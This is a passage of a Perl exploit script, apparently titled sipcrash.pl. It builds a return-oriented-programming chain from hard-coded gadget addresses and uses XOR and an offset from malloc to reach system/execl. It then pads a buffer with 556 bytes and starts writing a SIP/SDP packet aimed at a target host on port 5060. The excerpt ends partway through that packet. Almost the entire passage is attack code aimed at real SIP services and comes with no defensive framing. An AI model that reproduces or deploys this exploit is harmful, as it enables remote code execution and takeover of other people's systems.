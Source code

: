 ```
	# 0x081187df: add eax, dword ptr [ebx + 0x5e5b5cc4]; pop edi; pop ebp; ret;

	## get offset into eax
	# offset to eax. The offset is not the original 0x3ff30,
	# but xor'ed with 0x2f131326, therefore 0x2f10ec16
	$ropchain .= pack("V", $pop_eax);    # 0x08060f10: pop eax; pop ebx; pop ebp; ret;
	$ropchain .= pack("V", 0x2f10ec16);  # EAX
	$ropchain .= pack("V", 0x44444444);  # fake EBX
	$ropchain .= pack("V", 0x44444444);  # fake EBP

	# fix eax by xoring it:
	$ropchain .= pack("V", 0x0811ef88);  # 0x0811ef88: xor eax, 0x2f131326; ret;

	## get addr of malloc into ebx
	# addr of malloc into ebx. Adjust for offset contained in add gadget.
	$ropchain .= pack("V", $pop_ebx);    # 0x0813c85c: pop ebx; ret;
	$ropchain .= pack("V", $malloc_addr-0x5e5b5cc4);

	# add eax with [ebx], write result into eax
	# 0x081187df: add eax, dword ptr [ebx + 0x5e5b5cc4]; pop edi; pop ebp; ret;
	# note: we dereference ebx. Therefore its like: eax = eax + *ebx
	#       the dereference will access the address of system, from plt
	$ropchain .= pack("V", 0x081187df);  # add
	$ropchain .= pack("V", 0x44444444);  # fake edi
	$ropchain .= pack("V", 0x44444444);  # fake ebp

	# jmp to addr in eax
	# 0x080577cf: call eax; pop eax; pop ebx; leave; ret;
	# the commands after call (pop eax etc.) will never be executed,
	# as we execl()
	$ropchain .= pack("V", 0x080577cf);  # call eax

	# args for execl
	$ropchain .= pack("V", $exec_path_addr);   # path
	$ropchain .= pack("V", $exec_arg1_addr);   # arg1
	$ropchain .= pack("V", $exec_arg2_addr);   # arg2
	$ropchain .= pack("V", $exec_arg3_addr);   # arg3
	                                           # null implicit
	return ($ropchain);
}



if(not $ARGV[0]) {
   print "Usage: sipcrash.pl <host>\n";
   exit;
}

my $target=$ARGV[0];
my $target_port = 5060;

my $eip = 0x42424242;
my $padding = "A" x 556;

$payload = create_payload();



my $buf = $padding . $payload;

my $sip_packet = "v=0\n";
$sip_packet .= "o=rtp 1160124458839569000 160124458839569000 IN IP4 127.0.0.1\n";
$sip_packet .= "s=-\n";
```